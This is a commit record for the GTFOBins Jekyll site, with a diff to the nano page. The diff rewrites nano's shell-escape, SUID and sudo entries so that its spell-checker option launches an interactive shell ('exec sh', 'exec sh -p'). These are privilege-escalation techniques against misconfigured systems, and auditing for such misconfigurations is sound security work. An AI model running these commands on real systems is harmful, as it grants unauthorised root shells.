

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/nano.md, in a window 1280 px wide and 1400 px high. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
Make nano/pico execute-interactive by using exec

```diff
--- a/_gtfobins/nano.md
+++ b/_gtfobins/nano.md
@@ -1,11 +1,9 @@
 ---
 functions:
-  execute-non-interactive:
-    - description: After running this exit the editor to see the command output.
-      code: |
-        COMMAND=id
+  execute-interactive:
+    - code: |
         TF=$(mktemp)
-        echo "$COMMAND" > $TF
+        echo 'exec sh' > $TF
         chmod +x $TF
         nano -s $TF /etc/hosts
         ^T
@@ -17,20 +15,16 @@ functions:
   file-read:
     - code: nano file_to_read
   suid-enabled:
-    - description: After running this exit the editor to see the command output.
-      code: |
-        COMMAND=id
+    - code: |
         TF=$(mktemp)
-        echo $'#!/bin/sh -p\n'"$COMMAND" > $TF
+        echo 'exec sh -p' > $TF
         chmod +x $TF
         ./nano -s $TF /etc/hosts
         ^T
   sudo-enabled:
-    - description: After running this exit the editor to see the command output.
-      code: |
-        COMMAND=id
+    - code: |
         TF=$(mktemp)
-        echo "$COMMAND" > $TF
+        echo 'exec sh' > $TF
         chmod +x $TF
         sudo nano -s $TF /etc/hosts
         ^T
```
Also changed, not shown: _gtfobins/pico.md (+7 -13 lines).
